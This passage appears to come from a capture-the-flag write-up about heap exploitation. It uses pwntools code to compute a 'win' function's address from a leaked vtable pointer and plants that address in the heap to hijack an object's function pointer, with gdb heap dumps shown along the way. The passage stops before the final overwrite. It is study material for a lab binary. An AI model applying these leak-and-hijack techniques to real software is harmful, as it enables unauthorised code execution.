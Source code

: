 When we have an address in the code section, it is easy to compute the address of any other symbols in this section because they are all relative to each other. Using `pwn.ELF`, we will get the offset between the `_ZTV12longVariable` and the `win` function. We will then use it to compute the real location of the `win` function in our program (remember to add 16 as shown in gdb, because the pointer we got do not point at the beginning of the `print` function):
```py
elf = pwn.ELF(file)

# Convert the bytes output into an integer
long_var_addr = int(bytes(reversed(r.split(b': ')[1].split(b'\n')[0])).hex(), 16)

# Get the relative offset between the pointer we got and the win function
offset_win = elf.symbols['_ZTV12longVariable'] - elf.symbols['_Z3winv'] + 16

# Compute the real address of the win function
win_addr = long_var_addr - offset_win
```
I let you print the address of `win_addr` and look into gdb to check it correctly points to the `win` function.
# Call the `win` function
To call the `win` function, we should not forget that the pointer in the `variable` object is a pointer to a pointer to the function that will be executed. Therefore, we need to store the address of the `win` function somewhere in the heap, but also overwrite a variable to point to this address.

First, let's store the address of the win function somewhere in the heap. It is easy, we just need to create a `longVariable` with the value of the address of `win`:
```py
# Again, even if it is not necessary this time
# I do not want to pollute the heap more
conn.send(b'log\n')

r = conn.recvuntil(b'> ')
print(r)
conn.send(b'$win=' + str(win_addr).encode() + b'\n')
```
Let's see in gdb that we correctly add the address in the heap:
```
gef➤  x/16wx 0x000056524f365360+0x1A0
0x56524f365500:	0x00000002	0x24676f6c	0x006e6977	0x00000000 <- last log chunk
0x56524f365510:	0x00000000	0x00000000	0x00000021	0x00000000
0x56524f365520:	0x3431cbe8	0x00005652	0x00000000	0x00000000 <- variable $win
0x56524f365530:	0x34316dad	0x00005652	0x00000051	0x00000000 <- address to win function
gef➤  x/i 0x0000565234316dad
   0x565234316dad <_Z3winv>:	endbr64
```
To get the address of the last log chunk, I get the address of the last log chunk we created before messing the heap up. You can see that looking at the heap:
```
gef➤  heap chunks
Chunk(addr=0x56524f352010, size=0x290, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x000056524f352010     00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0x56524f3522a0, size=0x11c10, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x000056524f3522a0     00 1c 01 00 00 00 00 00 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0x56524f363eb0, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x000056524f363eb0     01 00 00 00 24 7a 00 00 00 00 00 00 00 00 00 00    ....$z..........]
Chunk(addr=0x56524f363ed0, size=0x410, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x000056524f363ed0     3e 20 39 31 31 30 36 32 39 36 31 35 38 31 0a 67    > 911062961581.g]
Chunk(addr=0x56524f3642e0, size=0x1010, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x000056524f3642e0     24 77 69 6e 3d 39 34 39 31 31 30 36 32 39 36 31    $win=94911062961]
Chunk(addr=0x56524f3652f0, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x000056524f3652f0     e8 cb 31 34 52 56 00 00 00 00 00 00 00 00 00 00    ..14RV..........]
Chunk(addr=0x56524f365310, size=0x50, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
    [0x000056524f365310     01 00 00 00 00 00 00 00 90 54 36 4f 52 56 00 00    .........T6ORV..]
Chunk(addr=0x56524f365360, size=0x20, flags=PREV_INUSE | IS_MMAPPED | NON_MAIN_ARENA)
```